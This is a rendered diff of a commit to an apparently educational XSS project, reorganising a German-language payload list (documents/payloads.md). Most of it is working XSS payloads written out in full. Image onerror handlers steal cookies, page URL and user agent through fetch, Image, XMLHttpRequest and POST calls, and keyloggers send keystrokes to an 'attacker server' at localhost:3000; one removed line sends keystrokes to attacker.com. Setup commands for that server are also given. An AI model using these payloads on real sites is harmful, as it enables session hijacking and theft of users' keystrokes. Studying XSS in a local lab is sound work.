

Before and after one commit to asacik/XSS_Projekt, a Markdown page: documents/payloads.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/documents/payloads.md
+++ b/documents/payloads.md
@@ -238,7 +216,7 @@
 
 ---
 
-## Keylogger
+## 1.4 Keylogger (ohne Server)
 
 ### Einfacher Keylogger (Console)
 
@@ -256,10 +234,74 @@
 
 ---
 
-### Keylogger der an Server sendet
+# Teil 2: Angriffe MIT Server
+
+Diese Payloads benötigen den Attacker-Server auf `http://localhost:3000`.
+
+## Hinweis: Server Setup
+
+**Server muss gestartet sein:**
+```bash
+cd attacker-server
+npm install
+npm start
+```
+
+**Dashboard öffnen:** `http://localhost:3000/dashboard`
+
+---
+
+## 2.1 Cookie-Diebstahl mit Server
+
+### Cookies an Server senden (fetch)
 
 ```html
-<img src=x onerror="var k='';document.onkeypress=function(e){k+=e.key;if(k.length>20){fetch('https://attacker.com/keys?d='+k);k=''}}">
+<img src=x onerror="fetch('http://localhost:3000/steal?c='+document.cookie)">
 ```
 
 ---
+
+### Cookies an Server senden (Image)
+
+```html
+<img src=x onerror="new Image().src='http://localhost:3000/steal?c='+document.cookie">
+```
+
+---
+
+### Cookies an Server senden (XMLHttpRequest)
+
+```html
+<img src=x onerror="var x=new XMLHttpRequest();x.open('GET','http://localhost:3000/steal?c='+document.cookie);x.send()">
+```
+
+---
+
+### Mit URL-Encoding
+
+```html
+<img src=x onerror="fetch('http://localhost:3000/steal?c='+encodeURIComponent(document.cookie))">
+```
+
+---
+
+### Cookies + URL + UserAgent (POST)
+
+```html
+<img src=x onerror="fetch('http://localhost:3000/steal',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({c:document.cookie,u:location.href,a:navigator.userAgent})})">
+```
+
+---
+
+## 2.2 Keylogger mit Server
+
+### Keylogger der an Server sendet (alle 20 Zeichen)
+
+```html
+<img src=x onerror="var k='';document.onkeypress=function(e){k+=e.key;if(k.length>20){fetch('http://localhost:3000/keys?d='+encodeURIComponent(k));k=''}}">
+```
+
+---
+
+### Keylogger mit kürzerer Übertragung (alle 10 Zeichen)
+
````
Also changed, not shown: other parts of documents/payloads.md (+163 -41 lines), documents/payloads-with-server.md (deleted, +0 -160 lines).
